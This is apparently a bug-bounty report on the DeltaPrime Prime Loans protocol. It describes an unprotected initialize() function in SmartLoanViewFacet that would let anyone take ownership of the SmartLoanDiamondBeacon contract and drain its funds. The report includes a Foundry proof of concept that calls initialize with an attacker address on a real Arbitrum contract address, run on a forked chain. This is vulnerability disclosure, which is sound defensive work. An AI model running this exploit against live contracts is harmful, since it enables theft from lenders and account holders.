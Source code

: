 **Contract hijack/Missing initialize call in SmartLoamViewFacet.sol**
---

_Bug Severity: High_

_Target:_
https://github.com/DeltaPrimeLabs/deltaprime-primeloans

___

**Vulnerability Details:**

DeltaPrime maintains all users’ prime accounts in the pattern of “Proxy+implementation” where each prime account is a proxy pointing to the implementation contract. The implementation contract, i.e., “SmartLoanDiamondBeacon”, adheres to the EIP-2535 standard (Diamond) and can only be managed by the protocol owner. This means that if a malicious user can manage to become the owner of the "SmartLoanDiamondBeacon" contract, he can gain control over all users' Prime accounts.

I did indeed discover such a vulnerability. this vulnerability involves a facet contract called “SmartLoanViewFacet”. This contract includes an “initialize()” function, originally designed to initialize the owner for a new prime account. However, we noticed that a hacker can directly call the “SmartLoanViewFacet::initialize()” function to hijack the owner of the “SmartLoanDiamondBeacon” contract.

With ownership of the “SmartLoanDiamondBeacon” contract, the hacker can arbitrarily modify the functionalities of the implementation for all prime accounts, enabling the hacker to steal all the protocol funds, including the funds in all DeltaPrime lending pools and all Prime Accounts. The estimated total loss is >$50M. For example, the hacker can add a “freeBorrow()” function to borrow all the lending pool funds without any solvency check.

Furthermore, once the owner of the “SmartLoanDiamondBeacon” contract is hijacked, there is no way for DeltaPrime to take it back or mitigate the exploit, which means the protocol is totally controlled by the hacker.



**Vulnerability Code:**

https://github.com/DeltaPrimeLabs/deltaprime-primeloans/blob/dev/main/contracts/facets/SmartLoanViewFacet.sol#L42


**Proof of concept (POC):**

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "forge-std/Test.sol";

interface ISmartLoanDiamondBeacon {
    function initialize(address owner) external;
}

contract DeltaPrimePoC is Test {
    address constant SmartLoanDiamondBeacon = 0x62Cf82FB0484aF382714cD09296260edc1DC0c6c;
    address constant maliciousOwner = 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4; // Put any attacker address

    function setUp() public {
        vm.createSelectFork(vm.envString("ARB_RPC_URL"), 234980496);
    }

    function test_Initialize_Targets() public {
           ISmartLoanDiamondBeacon(SmartLoanDiamondBeacon).initialize(maliciousOwner);
        }
    }



***PoC result:***

![DeltaPrimePoCResult](https://github.com/user-attachments/assets/3436464d-6d50-4440-b657-2adb23f9dbb5)


